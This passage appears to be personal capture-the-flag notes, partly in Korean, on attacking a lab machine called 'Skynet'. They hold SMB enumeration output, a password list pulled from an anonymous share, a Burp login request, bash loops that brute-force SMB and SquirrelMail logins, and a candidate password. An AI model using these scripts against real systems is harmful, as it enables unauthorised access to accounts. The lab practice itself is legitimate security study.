//10.48.183.145/anonymous       Mapping: OK Listing: OK Writing: N/A
//10.48.183.145/milesdyson      Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:                                                                                                
                                                                                                                              
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                    
//10.48.183.145/IPC$    Mapping: N/A Listing: N/A Writing: N/A

 ===========================( Password Policy Information for 10.48.183.145 )===========================
                                                                                                                              
Password:                                                                                                                     


[+] Attaching to 10.48.183.145 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] SKYNET
        [+] Builtin

[+] Password Info for Domain: SKYNET

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 136 years 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 136 years 37 days 6 hours 21 minutes 


[+] Retieved partial password policy with rpcclient:                                                                          
                                                                                                                              
                                                                                                                              
Password Complexity: Disabled                                                                                                 
Minimum Password Length: 5


 ======================================( Groups on 10.48.183.145 )======================================
                                                                                                                              
                                                                                                                              
[+] Getting builtin groups:                                                                                                   
                                                                                                                              
                                                                                                                              
[+]  Getting builtin group memberships:                                                                                       
                                                                                                                              
                                                                                                                              
[+]  Getting local groups:                                                                                                    
                                                                                                                              
                                                                                                                              
[+]  Getting local group memberships:                                                                                         
                                                                                                                              
                                                                                                                              
[+]  Getting domain groups:                                                                                                   
                                                                                                                              
                                                                                                                              
[+]  Getting domain group memberships:                                                                                        
                                                                                                                              
                                                                                                                              
 ==================( Users on 10.48.183.145 via RID cycling (RIDS: 500-550,1000-1050) )==================
                                                                                                                              
                                                                                                                              
[I] Found new SID:                                                                                                            
S-1-22-1                                                                                                                      

[I] Found new SID:                                                                                                            
S-1-5-32                                                                                                                      

[I] Found new SID:                                                                                                            
S-1-5-32                                                                                                                      

[I] Found new SID:                                                                                                            
S-1-5-32                                                                                                                      

[I] Found new SID:                                                                                                            
S-1-5-32                                                                                                                      

[+] Enumerating users using SID S-1-5-21-2393614426-3774336851-1116533619 and logon username '', password ''                  
                                                                                                                              
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                      
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                   
                                                                                                                              
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                             
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                   
                                                                                                                              
^TS-1-22-1-1001 Unix User\milesdyson (Local User)                                                                             

 ===============================( Getting printer info for 10.48.183.145 )===============================
                                                                                                                              
No printers returned.                                                                                                         


enum4linux complete on Sun Nov 30 18:37:47 2025


```


> milesdyson
> smbmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo smbmap -H 10.48.183.145

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [/] Checking for open ports...                                                                                                [-] Checking for open ports...                                                                                                [\] Checking for open ports...                                                                                                [*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.48.183.145:445       Name: 10.48.183.145             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections                                                                                                     
                             

┌──(kali㉿kali)-[~]
└─$ sudo smbmap -H 10.48.183.145 -u anonymous 

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [/] Checking for open ports...                                                                                                [-] Checking for open ports...                                                                                                [\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.48.183.145:445       Name: 10.48.183.145             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
        
[*] Closed 1 connections         

# 공유 폴더 지정해서 검색

┌──(kali㉿kali)-[~]
└─$ sudo smbmap -H 10.48.183.145 -u anonymous -s anonymous -r '' --depth 5

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [/] Checking for open ports...                                                                                                [-] Checking for open ports...                                                                                                [\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.48.183.145:445       Name: 10.48.183.145             Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ ONLY       Skynet Anonymous Share
        ./anonymous
        dr--r--r--                0 Fri Nov 27 01:04:00 2020    .
        dr--r--r--                0 Tue Sep 17 16:20:17 2019    ..
        fr--r--r--              163 Wed Sep 18 12:04:59 2019    attention.txt
        dr--r--r--                0 Wed Sep 18 13:42:16 2019    logs
        ./anonymous//logs
        dr--r--r--                0 Wed Sep 18 13:42:16 2019    .
        dr--r--r--                0 Fri Nov 27 01:04:00 2020    ..
        fr--r--r--                0 Wed Sep 18 13:42:13 2019    log2.txt
        fr--r--r--              471 Wed Sep 18 13:41:59 2019    log1.txt
        fr--r--r--                0 Wed Sep 18 13:42:16 2019    log3.txt
        milesdyson                                              NO ACCESS       Miles Dyson Personal Share
        IPC$                                                    NO ACCESS       IPC Service (skynet server (Samba, Ubuntu))
[*] Closed 1 connections 
                                      

# attention, log 1~3 파일 다운로드

┌──(kali㉿kali)-[~]
└─$ sudo smbmap -H 10.48.183.145 -u anonymous --download 'anonymous/attention.txt'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                                [|] Checking for open ports...                                                                                                [/] Checking for open ports...                                                                                                [-] Checking for open ports...                                                                                                [\] Checking for open ports...                                                                                                [*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[+] Starting download: anonymous\attention.txt (163 bytes)                                                               
[+] File output to: /home/kali/10.48.183.145-anonymous_attention.txt                                                     
[*] Closed 1 connections  

```

> Miles Dyson 이라는 사람이 전 직원에게 비밀번호 변경을 지시한걸로 보아 권한이 높은 것으로 추정

┌──(kali㉿kali)-[~]
└─$ ls
10.48.183.145-anonymous_attention.txt  Documents  Music     Public     Videos      scan.txt  vpn.ovpn
Desktop                                Downloads  Pictures  Templates  linpeas.sh  snap      workspace
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ cat 10.48.183.145-anonymous_attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

sudo smbmap -H 10.48.183.145 -u anonymous --download 'anonymous/logs/log1.txt'
sudo smbmap -H 10.48.183.145 -u anonymous --download 'anonymous/logs/log2.txt'
sudo smbmap -H 10.48.183.145 -u anonymous --download 'anonymous/logs/log3.txt'


> logs -> passwordlists? or usernames?
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cat 10.48.183.145-anonymous_logs_log2.txt 
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ cat 10.48.183.145-anonymous_logs_log3.txt 
                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ cat 10.48.183.145-anonymous_logs_log1.txt 
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator


> milesdyson/Miles Dyson
```bash
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.48.183.145 -U milesdyson

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                   
                                                                                                                              
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                             
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                   
                                                                                                                              
S-1-22-1-1001 Unix User\milesdyson (Local User)                                                                               
ports=$(nmap -p 139,445 10.48.183.145 --open -oG - | grep "/open" | cut -d" " -f2)
                                                                                                                              

[+] Enumerating users using SID S-1-5-21-2393614426-3774336851-1116533619 and logon username '', password ''                  
                                                                                                                              
S-1-5-21-2393614426-3774336851-1116533619-501 SKYNET\nobody (Local User)                                                      
S-1-5-21-2393614426-3774336851-1116533619-513 SKYNET\None (Domain Group)
S-1-5-21-2393614426-3774336851-1116533619-1000 SKYNET\milesdyson (Local User)
```


```bash
# nmap으로 열린 SMB 포트 확인 후 SMBMap 실행
ports=$(nmap -p 139,445 10.48.183.145 --open -oG - | grep "/open" | cut -d" " -f2)
for ip in $ports; do smbmap -H $ip; done

# 사용자 목록과 패스워드 목록으로 SMB 접속 시도
for u in $(cat users.txt); do for p in $(cat pass.txt); do echo "Testing $u:$p"; smbmap -u "$u" -p "$p" -H 10.48.183.145; done; done
```


> http://10.48.183.145/squirrelmail/src/login.php 로그인 시도하기
> username=milesdyson
> password=log1.txt
> burpsuite -> intruder
```
POST /squirrelmail/src/redirect.php HTTP/1.1
Host: 10.48.183.145
Content-Length: 81
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.48.183.145
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.48.183.145/squirrelmail/src/login.php
Accept-Encoding: gzip, deflate, br
Cookie: SQMSESSID=84i2hdlhrmmdbn3hnf7lc3h9v3
Connection: keep-alive

login_username=milesdyson&secretkey=1234&js_autodetect_results=1&just_logged_in=1
```

> milesdyson/terminator22596
> milesdyson/terminator219


```bash
#!/bin/bash

# 사용자 및 비밀번호 파일
USER_FILE="users.txt"
PASS_FILE="pass.txt"

# --- 중요: 로그인 실패를 나타내는 고유 문자열을 여기에 입력하세요. ---
# (예: SquirrelMail의 경우, "Error logging in" 또는 "You have to be logged in to view this page." 등)
# 실제 응답을 확인하여 고유한 문자열을 사용해야 합니다.
FAILURE_STRING="로그인 실패 시 나오는 고유한 문자열" 
# ---------------------------------------------------------------

echo "--- SquirrelMail Brute-Force Test Started ---"
echo "Target: http://10.48.183.145/squirrelmail/src/redirect.php"
echo "-----------------------------------------------"

for u in $(cat $USER_FILE); do
  for p in $(cat $PASS_FILE); do
    
    # 테스팅 중인 조합 출력
    echo "Testing $u:$p"

    # curl 요청 실행
    # -s: Silent 모드 (진행률 표시 숨김)
    # -d: POST 데이터 전송 (application/x-www-form-urlencoded)
    # -q: grep 쿼리 옵션 (출력 없이 상태 코드만 반환)
    curl -s -X POST "http://10.48.183.145/squirrelmail/src/redirect.php" \
      -d "login_username=$u&secretkey=$p&js_autodetect_results=1&just_logged_in=1" \
      -H "Content-Type: application/x-www-form-urlencoded" \
      | grep -q "$FAILURE_STRING"

    # grep의 Exit Code 확인
    # $? = 0 이면: 문자열을 찾았음 (로그인 실패) -> 아무것도 하지 않음
    # $? = 1 이면: 문자열을 찾지 못했음 (로그인 성공 또는 다른 응답) -> SUCCESS 메시지 출력
    if [ $? -ne 0 ]; then
        echo "✅ SUCCESS: $u:$p"
    fi
  done
done

echo "--- Test Completed ---"
```

> burpsuite


```bash
HTTP/1.1 200 OK
Date: Sun, 30 Nov 2025 14:16:08 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Sat, 1 Jan 2000 00:00:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; path=/squirrelmail/; HttpOnly
Set-Cookie: squirrelmail_language=en_US; expires=Tue, 30-Dec-2025 14:16:10 GMT; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=hi4b7kdkpbfev2v9q31pf27392; path=/squirrelmail/
Set-Cookie: SQMSESSID=hi4b7kdkpbfev2v9q31pf27392; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=hi4b7kdkpbfev2v9q31pf27392; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; expires=Thu, 01-Jan-1970 00:00:01 GMT; path=/squirrelmail/; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; expires=Thu, 01-Jan-1970 00:00:01 GMT; path=/squirrelmail/src; HttpOnly
Set-Cookie: SQMSESSID=76l74mvl2advp2bt6epchhb782; expires=Thu, 01-Jan-1970 00:00:01 GMT; path=/squirrelmail/src/; HttpOnly
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Length: 1789
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">

<html>

<head>
<meta name="robots" content="noindex,nofollow">
<meta http-equiv="x-dns-prefetch-control" content="off">
<script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/squirrelmail/src/signout.php"; top.location = "/squirrelmail/src/signout.php" } }
// -->
</script>

<title>SquirrelMail - Unknown user or password incorrect.</title>
<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->

</head>

<body text="#000000" bgcolor="#ffffff" link="#0000cc" vlink="#0000cc" alink="#0000cc">

<center><br />
<small>SquirrelMail version 1.4.23 [SVN]<br />By the SquirrelMail Project Team<br /></small>
<table cellspacing="1" cellpadding="0" bgcolor="#800000" width="70%"><tr><td><table width="100%" border="0" bgcolor="#ffffff" align="center"><tr><td bgcolor="#dcdcdc" align="center"><font color="#cc0000"><b>ERROR</b></font></td></tr><tr><td align="center">Unknown user or password incorrect.</td></tr><tr><td bgcolor="#dcdcdc" align="center"><font color="#cc0000"><b><a href="/squirrelmail/src/login.php" target="_top">Go to the login page</a></b></font></td></tr></table></td></tr></table></center></body></html>
```


> smbclient
> milesdyson/terminator22596

┌──(kali㉿kali)-[~]
└─$ smbclient //10.48.183.145/anonymous -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Nov 27 01:04:00 2020
  ..                                  D        0  Tue Sep 17 16:20:17 2019
  attention.txt                       N      163  Wed Sep 18 12:04:59 2019
  logs                                D        0  Wed Sep 18 13:42:16 2019

                9204224 blocks of size 1024. 5831420 blocks available
smb: \> 


smbclient //<TARGET_IP>/<SHARE_NAME> -U <USERNAME>


```bash
# 재시도 실패
# 사용자 목록과 패스워드 목록으로 SMB 접속 시도
for u in $(cat users.txt); do for p in $(cat pass.txt); do echo "Testing $u:$p"; smbmap -u "$u" -p "$p" -H 10.48.183.145; done; done
```


> milesdyson/cyborg007haloterminator
> burpsuite 로 시도하고 


> 모든 응답이 200 을 반환하여 하나하나 응답 열어보기 -> 300 번대가 성공

